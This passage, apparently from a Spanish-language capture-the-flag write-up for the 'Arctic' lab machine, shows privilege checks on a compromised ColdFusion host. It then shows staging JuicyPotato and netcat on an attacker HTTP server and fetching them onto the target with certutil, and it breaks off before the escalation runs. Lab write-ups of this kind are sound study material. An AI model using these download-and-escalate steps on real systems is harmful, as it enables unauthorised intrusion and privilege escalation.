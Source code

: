 ```powershell
C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\ColdFusion8\runtime\bin>
```

Tenemos el SeImpersonatePrivilege habilitado así que podemos tirar del llamado **juicypotato**. En github lo encuentras, por [aquí](https://github.com/ohpe/juicy-potato). Te vas a **Fresh Potatoes** y descargas el **JuicyPotato.exe**.  
También necesitamos descargarnos el netcat para Windows, yo uso esta [página](https://eternallybored.org/misc/netcat/). Descargamos la segunda, la 1.12, porque la primera dicen que no ha sido testeada en 64 bits y si haces un systeminfo en máquina Arctic verás que es de 64bits. Se descarga un .zip. En mi carpeta local de **Recursos** haré un `unzip netcat.zip -d netcat`. Al nc64.exe lo renombro nc.exe a secas.

Comparto un server en python en el directorio donde tengo el juicy y el nc.exe:

```sh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y en Arctic:

```powershell
C:\ColdFusion8\runtime\bin>cd C:\Windows\Temp
cd C:\Windows\Temp

C:\Windows\Temp>mkdir Privesc
mkdir Privesc

C:\Windows\Temp>certutil.exe -f -urlcache -split http://10.10.14.23:8000/JuicyPotato.exe
certutil.exe -f -urlcache -split http://10.10.14.23:8000/JuicyPotato.exe
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.

C:\Windows\Temp>certutil.exe -f -urlcache -split http://10.10.14.23:8000/nc.exe
certutil.exe -f -urlcache -split http://10.10.14.23:8000/nc.exe
****  Online  ****
  0000  ...
  b0d8
CertUtil: -URLCache command completed successfully.
```
